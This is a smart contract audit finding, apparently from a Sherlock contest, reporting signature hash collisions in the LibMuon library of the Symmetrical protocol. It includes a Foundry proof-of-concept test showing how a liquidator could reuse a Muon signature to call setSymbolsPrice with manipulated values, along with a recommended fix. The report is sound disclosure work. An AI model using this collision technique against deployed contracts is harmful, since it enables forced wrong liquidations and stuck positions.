 shaka

high

# `LibMuon` verifications hash collisions

## Summary

`LibMuon` verification methods can have hash collisions. This can cause the wrong data to be accepted by the contract.

## Vulnerability Detail

The implementation of `LibMuon` is susceptible to hash collisions for different methods. This means that an attacker can request to the Muon app a signature for a specific method and then use the signature to call a different method in the contract.

The [Muon docs](https://dev.muon.net/#signparams) warn about this issue:

> To ensure that the signed and verified response has accurately covered the requested data, the parameters passed to the app should also be included in the returned value of signParams in addition to the result. Otherwise, the signature queried from the app with certain parameters might be abused and fed to the dApp contract with different ones. **If the app has different methods, the method name should be included as well**.

Currently the only methods that can have collisions are `verifyPartyAUpnlAndPrice` and `verifyPrices`. However, if more methods are added in the future, they will also be susceptible to this issue.

## Proof of Concept

A liquidator calls the `uPnl_A_withSymbolPrice` method in the Muon app and receives a valid signature for the following data:
```js
{ type: 'uint256', value: appId }
{ type: 'uint256', value : requestId }
{ type: 'address', value: v3Contract },
{ type: 'address', value: partyA },
{ type: 'uint256', value: nonce },
{ type: 'int256', value: request.data.result.uPnl },
{ type: 'uint256', value: symbolId },
{ type: 'uint256', value: request.data.result.price },
{ type: 'uint256', value: request.data.timestamp },
{ type: 'uint256', value: chainId },
```

The liquidator then uses this data and signature to build a `PriceSig` struct and calls the `setSymbolsPrice` function passing this struct as a parameter. The liquidator manages to use `partyA` nonce value for the `uPnl` field and the `request.data.result.uPnl` value for the `totalUnrealizedLoss` field.

Foundry test:
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "../../contracts/libraries/LibMuon.sol";

contract HashCollision is Test {
    address alice;

    // Global variables
    uint256 muonAppId;
    uint256 chainId;
    mapping(address => uint256) partyANonces;
      
    function setUp() public {
        muonAppId = 1;
        chainId = 2;
        alice = makeAddr("Alice");
        partyANonces[alice] = 3;
    }

    function testHashCollision() public {
        bytes memory reqId = "123";
        int256 upnl = 1e18;
        uint256 symbolId = 999;
        uint256 price = 100e18;
        uint256 timestamp = 1687600000;
        bytes memory gatewaySignature = "0x987";
        uint256 signature = 33333;
        address owner = address(0xbeef);
        address nonce = address(0x4444);

        SingleUpnlAndPriceSig memory upnlSig = SingleUpnlAndPriceSig({
            reqId: reqId,
            timestamp: timestamp,
            upnl: upnl,
            price: price,
            gatewaySignature: gatewaySignature,
            sigs: SchnorrSign({
                signature: signature,
                owner: owner,
                nonce: nonce
            })
        });
        bytes32 partyAUpnlAndPriceHash = getVerifyPartyAUpnlAndPriceHash(upnlSig, alice, symbolId);

        uint256[] memory symbolIds = new uint256[](1);
        symbolIds[0] = symbolId;
        uint256[] memory prices = new uint256[](1);
        prices[0] = price;
        PriceSig memory priceSig = PriceSig({
            reqId: reqId,
            timestamp: timestamp,
            upnl: int256(partyANonces[alice]), // <== this value is being manipulated
            totalUnrealizedLoss: upnl, // <=== this value is being manipulated
            symbolIds: symbolIds,
            prices: prices,
            gatewaySignature: gatewaySignature,
            sigs: SchnorrSign({
                signature: signature,
                owner: owner,
                nonce: nonce
            })
        });
        bytes32 pricesHash = getVerifyPricesHash(priceSig, alice);

        assertEq(partyAUpnlAndPriceHash, pricesHash);
    }

    function getVerifyPartyAUpnlAndPriceHash(
        SingleUpnlAndPriceSig memory upnlSig,
        address partyA,
        uint256 symbolId
    ) internal view returns (bytes32 hash) {
        hash = keccak256(
            abi.encodePacked(
                muonAppId,
                upnlSig.reqId,
                address(this),
                partyA,
                partyANonces[partyA],
                upnlSig.upnl,
                symbolId,
                upnlSig.price,
                upnlSig.timestamp,
                chainId
            )
        );
    }

    function getVerifyPricesHash(PriceSig memory priceSig, address partyA) internal view returns (bytes32 hash) {
        hash = keccak256(
            abi.encodePacked(
                muonAppId,
                priceSig.reqId,
                address(this),
                partyA,
                priceSig.upnl,
                priceSig.totalUnrealizedLoss,
                priceSig.symbolIds,
                priceSig.prices,
                priceSig.timestamp,
                chainId
            )
        );
    }
}
```

## Impact

There are different ways in which this vulnerability can be exploited. For example, a liquidator can use this vulnerability to manipulate the `upnl` and `totalUnrealizedLoss` values so that party A is liquidated with the wrong liquidation type.

Another impact is that by submitting just one symbol price, the liquidation process will be stuck forever, because the symbol prices for the other symbols will never be updated and thus, its associates quotes will never be liquidated.

## Code Snippet

https://github.com/sherlock-audit/2023-06-symmetrical/blob/main/symmio-core/contracts/libraries/LibMuon.sol#L53-L65

https://github.com/sherlock-audit/2023-06-symmetrical/blob/main/symmio-core/contracts/libraries/LibMuon.sol#L118-L130

## Tool used

Manual Review

## Recommendation

Add method name to the signed message and verify it in the contract.